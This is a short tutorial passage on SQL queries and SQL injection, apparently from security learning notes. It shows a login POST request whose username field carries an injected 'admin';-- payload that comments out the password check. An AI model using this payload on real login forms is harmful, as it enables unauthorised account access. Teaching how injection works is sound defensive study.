 This query would return **all usernames** in the Users table:

```sql
SELECT Username FROM Users;
```

Finally, this query would return all users with the username **admin**:

```sql
SELECT * FROM Users WHERE Username='admin';
```

For more examples: [SQL Tutorial (w3schools.com)](https://www.w3schools.com/sql/default.asp)

---

# `Injecting Code into SQL Queries`

A **SQL injection attack** occurs when an attacker is able to inject code into the **SQL statements** that the **target** web application

For example, let’s say that a website prompts its users for **their username and password**, then inserts these into a **SQL query** to log in the user. The following POST request parameters from the user will be used to **populate a SQL query**: 

```sql
POST /login
Host: example.com
(POST request body)
username=vickie&password=password123
```

This SQL query will find the **ID of a user** that matches the username and password provided in the POST request. The application will then log in to that **user’s account**:

```sql
SELECT Id FROM Users
WHERE Username='vickie' AND Password='password123';
```

The attacker can inject a special character to SQL to mess with the query like this :

```sql
POST /login
Host: example.com
(POST request body)
username="admin';-- "&password=password123
```

the generated SQL query would become this:

```sql
SELECT Id FROM Users
WHERE Username='admin';-- ' AND Password='password123';
```

The query becomes this:

```sql
SELECT Id FROM Users WHERE Username='admin'; //As the last statement become a comment.
```
